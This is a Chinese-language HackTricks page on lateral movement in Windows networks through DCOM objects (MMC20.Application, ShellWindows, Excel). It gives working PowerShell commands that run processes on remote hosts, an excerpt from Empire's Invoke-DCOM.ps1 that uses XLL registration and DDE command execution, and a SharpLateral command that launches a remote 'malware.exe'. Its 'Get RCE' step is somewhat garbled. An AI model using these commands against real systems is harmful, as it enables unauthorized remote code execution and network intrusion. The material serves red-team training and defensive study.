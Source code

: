 # DCOM Exec

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## MMC20.Application

**有关此技术的更多信息，请查看原始帖子 [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

分布式组件对象模型 (DCOM) 对象为基于网络的对象交互提供了有趣的能力。微软为 DCOM 和组件对象模型 (COM) 提供了全面的文档，分别可以在 [这里查看 DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) 和 [这里查看 COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx)。可以使用 PowerShell 命令检索 DCOM 应用程序列表：
```bash
Get-CimInstance Win32_DCOMApplication
```
The COM对象，[MMC应用程序类 (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx)，使得MMC插件操作的脚本化成为可能。值得注意的是，这个对象在`Document.ActiveView`下包含一个`ExecuteShellCommand`方法。关于这个方法的更多信息可以在[这里](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx)找到。检查它的运行：

此功能通过DCOM应用程序促进了在网络上执行命令。要以管理员身份远程与DCOM交互，可以使用PowerShell，如下所示：
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
此命令连接到 DCOM 应用程序并返回 COM 对象的实例。然后可以调用 ExecuteShellCommand 方法在远程主机上执行进程。该过程涉及以下步骤：

检查方法：
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
获取 RCE：
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**有关此技术的更多信息，请查看原始帖子 [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

**MMC20.Application** 对象被识别为缺乏明确的 "LaunchPermissions"，默认为允许管理员访问的权限。有关更多详细信息，可以在 [这里](https://twitter.com/tiraniddo/status/817532039771525120) 探索一个线程，并建议使用 [@tiraniddo](https://twitter.com/tiraniddo) 的 OleView .NET 来过滤没有明确启动权限的对象。

两个特定对象 `ShellBrowserWindow` 和 `ShellWindows` 因缺乏明确的启动权限而被强调。`HKCR:\AppID\{guid}` 下缺少 `LaunchPermission` 注册表项表示没有明确的权限。

###  ShellWindows
对于缺乏 ProgID 的 `ShellWindows`，.NET 方法 `Type.GetTypeFromCLSID` 和 `Activator.CreateInstance` 通过其 AppID 促进对象实例化。此过程利用 OleView .NET 检索 `ShellWindows` 的 CLSID。一旦实例化，可以通过 `WindowsShell.Item` 方法进行交互，从而调用方法，如 `Document.Application.ShellExecute`。

提供了示例 PowerShell 命令以实例化对象并远程执行命令：
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

侧向移动可以通过利用 DCOM Excel 对象来实现。有关详细信息，建议阅读 [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) 上关于通过 DCOM 利用 Excel DDE 进行侧向移动的讨论。

Empire 项目提供了一个 PowerShell 脚本，演示了通过操纵 DCOM 对象利用 Excel 进行远程代码执行 (RCE)。以下是来自 [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) 的脚本片段，展示了滥用 Excel 进行 RCE 的不同方法：
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automation Tools for Lateral Movement

两个工具被强调用于自动化这些技术：

- **Invoke-DCOM.ps1**：由Empire项目提供的PowerShell脚本，简化了在远程机器上执行代码的不同方法的调用。该脚本可以在Empire GitHub存储库中访问。

- **SharpLateral**：一个用于远程执行代码的工具，可以使用以下命令：
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## 自动化工具

* Powershell 脚本 [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) 允许轻松调用所有评论中提到的在其他机器上执行代码的方法。
* 你也可以使用 [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## 参考文献

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
